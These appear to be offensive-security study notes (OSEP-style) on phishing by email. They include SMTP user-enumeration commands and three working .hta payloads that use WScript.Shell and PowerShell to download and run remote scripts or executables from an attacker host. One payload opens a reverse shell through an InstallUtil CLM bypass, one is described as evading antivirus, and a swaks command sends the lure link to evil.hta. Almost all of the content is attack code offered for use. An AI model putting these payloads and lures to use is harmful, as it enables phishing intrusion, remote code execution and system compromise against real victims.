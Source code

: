 ## Phishing through Email

First of all, you need to find a valid email account to send the phish to. This could either be through enumeration of the web portals or if SMTP is open, using the following enum command
```bash
# Can check via manual telnet to see which method is allowed
$ smtp-user-enum -M VRFY -U users.txt -t 10.0.0.1
$ smtp-user-enum -M EXPN -u admin1 -t 10.0.0.1
$ smtp-user-enum -M RCPT -U users.txt -T mail-server-ips.txt
$ smtp-user-enum -M EXPN -D example.com -U users.txt -t 10.0.0.1
```

### Payload - Via .hta

- Only works if victim is using IE and hence mshta.exe will execute the .hta payload
- Lets prepare a .hta payload which we can serve as a link in our email's body to entice the victim to click and execute
- Payload from simple to complex
- We call the below evil.hta

**Simple Powershell Download Cradle and RevShell via TCPSocket**
- Can evade AV because of the use of "non-standard" var names
```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe (New-Object System.Net.WebClient).DownloadString('http://<ip>/run.txt')| IEX");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
![run.txt here](https://github.com/OoStellarnightoO/OSEP_Notes/blob/main/99%20-%20Misc%20Stuff/PS_Nishang_OneLiner_RevShell.ps1)

For run.txt, you can also Base64 Encode it but if you are using cyberchef, remember to Encode Text (UTF-16 LE) recipe before Base64 encode recipe!
![alt text](image.png)

**Simple Powershell Download EXE and Execute**
- No AMSI and Applocker bypass so will likely download the EXE but fail to execute

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe iwr -uri http://<ip>/msf.exe -outfile C:\\users\\public\\msf.exe; C:\\users\\public\\msf.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

**PSBypassCLM Rev Shell**
- Requires InstalUtil. Bypasses CLM for that session

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe iwr -uri http://<ip>/psbypassclm.exe -outfile C:\\users\\public\\bypass.exe; C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=<kali ip> /rport=443 /U c:\\Users\\Public\\bypass.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```



### Sending the email!

Make sure your apache server is running to serve the .hta

```bash
sudo swaks -t will@offsec.com --from hacker@hacker.com --server <Target IP with SMTP> --body 'Click here http://192.168.45.195/evil.hta' --header Anything
```